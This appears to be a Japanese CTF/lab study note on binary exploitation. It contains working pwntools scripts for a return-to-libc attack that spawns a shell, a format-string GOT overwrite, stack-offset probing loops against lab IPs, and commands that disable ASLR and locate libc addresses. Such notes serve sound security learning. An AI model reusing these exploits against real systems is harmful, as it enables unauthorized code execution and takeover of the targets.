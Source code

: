 # バッファオーバーフロー

## 用語

- ASLR（Address Space Layout Randomization） は、プログラムが実行されるときに、メモリ上のアドレスを毎回ランダムに変える セキュリティ機能
  `/proc/sys/kernel/randomize_va_space` で設定
- PIE（Position Independent Executable）は、実行ファイル自体のアドレスもランダムにする
- GOT（Global Offset Table）は、動的にリンクされた関数のアドレスを保持する。
- PLT（Procedure Link Table）。関数の PLT アドレスを呼び出すことは、関数自体を呼び出すことと同じ。

```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
```

## Return to LIBC

https://www.networkintelligence.ai/blogs/exploiting-buffer-overflow-using-return-to-libc/

ローカル環境で下記の情報を取得するとする

- Base Address
- System Address
- Exit Address
- /bin/sh Address

```shell
echo 0 > /proc/sys/kernel/randomize_va_space

ldd elffile

strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
```

```python
from pwn import *
binary_file = './thelibrarian'
libc = ELF('./libc.so.6')

# Connect to remote target
p = remote('10.10.65.211', 9008)
#p = process(binary_file)

context.binary = binary = ELF(binary_file, checksec=False)
rop = ROP(binary)

# 1. パディングとretガジェットを配置
# 2. putsのアドレスを引数としてputsを呼び出す
# 3. 最後にmain関数に戻り、同じメモリ配置で2回目の処理が実行されるようにしている
padding = b"A" * 264
payload = padding
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.symbols.main)

p.recvuntil(b"Again? Where this time? : \n")
p.sendline(payload)
p.recvuntil(b"ok, let's go!\n\n")
# putsで出力したputs関数のアドレスを取得
leak = u64(p.recvline().strip().ljust(8, b'\0'))
log.info(f'Puts leak => {hex(leak)}')

# Calculate libc base
libc.address = leak - libc.symbols.puts
log.info(f'Libc base => {hex(libc.address)}')

# Calculate the /bin/sh and system addresses using the provided offsets
bin_sh_offset = 0x1b3d88
system_offset = 0x4f420

bin_sh = libc.address + bin_sh_offset
system = libc.address + system_offset

log.info(f'/bin/sh address => {hex(bin_sh)}')
log.info(f'system address => {hex(system)}')

# Second payload for spawning shell
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(bin_sh)            # Use manually calculated /bin/sh address
payload += p64(system)            # Use manually calculated system address
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(0x0)

p.recvuntil(b"Again? Where this time? : \n")
p.sendline(payload)
p.recvuntil(b"ok, let's go!\n\n")
p.interactive()
```

## フォーマット文字列脆弱性

引数無しで `print("%p %p %p")` のような呼び出しをした場合の動作は未定義だが、下記の例では ABCDEFGH が 6 番目の引数であるように動作していることが分かる。（※リトルエンディアンのアドレス（0x4847464544434241）として解釈されている）

```shell
$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))"
ABCDEFGH|1:%p|2:%p|3:%p|4:%p|5:%p|6:%p|7:%p|8:%p|9:%p|10:%p|11:%p|12:%p|13:%p|14:%p|15:%p|16:%p|17:%p|18:%p|19:%p|20:%p|21:%p|22:%p|23:%p|24:%p|25:%p|26:%p|27:%p|28:%p|29:%p|30:%p|31:%p|32:%p|33:%p|34:%p|35:%p|36:%p|37:%p|38:%p|39:%p

$ python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./notspecified | grep 4847
ABCDEFGH|1:0x7fde7f380643|2:(nil)|3:0x7fde7f29c936|4:(nil)|5:(nil)|6:0x4847464544434241|7:0x3a327c70253a317c|8:0x7c70253a337c7025|9:0x253a357c70253a34|10:0x377c70253a367c70|11:0x70253a387c70253a|12:0x30317c70253a397c|13:0x253a31317c70253a|14:0x7c70253a32317c70|15:0x34317c70253a3331|16:0x253a35317c70253a|17:0x7c70253a36317c70|18:0x38317c70253a3731|19:0x253a39317c70253a|20:0x7c70253a30327c70|21:0x32327c70253a3132|22:0x253a33327c70253a|23:0x7c70253a34327c70|24:0x36327c70253a3532|25:0x253a37327c70253a|26:0x7c70253a38327c70|27:0x30337c70253a3932|28:0x253a31337c70253a|29:0x7c70253a32337c70|30:0x34337c70253a3333|31:0x253a35337c70253a|32:0x7c70253a36337c70|33:0x38337c70253a3733|34:0x253a39337c70253a|35:0x7fde7f3c0a70|36:(nil)|37:0x7fff0a037ea0|38:0x1|39:0x7fde7f1c1ca8

# 指定番目のアドレスのみ出すことも可能
"ABCDEFGH|%6$p"
```

fmtstr_payload を使ったエクスプロイト

```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64', endian ='little')
def send_payload(payload):
        s.recvline()
        s.sendline(payload)
        r = s.recvline()
        return r

elf = ELF('./notspecified')
exit_got = elf.got['exit']
win_func = elf.symbols['win']
#s = process('./notspecified')
s = remote('10.10.23.250', 9009)

payload = fmtstr_payload(6, {exit_got: win_func})
print(payload)
print(send_payload(payload))
s.interactive()
```

### %n

printf の`%n`書式が肝になっている。  
`%n`を使うと、「これまでに出力された文字数」が指定されたメモリに書き込まれる。  
それを利用し、exit 関数の GOT に、win 関数のアドレスを書き込むといったことをする。  
実際には、4 バイトアドレスを書き込むとしたら、1 バイト単位で 4 回書き込むような実装になっている。

```c
#include <stdio.h>

int main() {
    int x = 0;
    printf("Hello%n\n", &x);  // Helloを出力し、xに5が書き込まれる
    printf("x = %d\n", x);    // x = 5
    return 0;
}
```

### 20 件出力する

ASCII 文字列のバイト列自体が出てくることもあり得る

```shell
from pwn import *

for i in range(20):
    print(f"Try {i}")
    #p = process("./pwn106-user-1644300441063.pwn106-user")
    p = remote("10.10.237.162", 9006)

    p.recvuntil(b"in the giveaway: ")
    payload = f"%{i}$p".encode()
    p.sendline(payload)
    output = p.recvline_containsS("Thanks ", timeout=3)
    print(output)
    p.close()
```
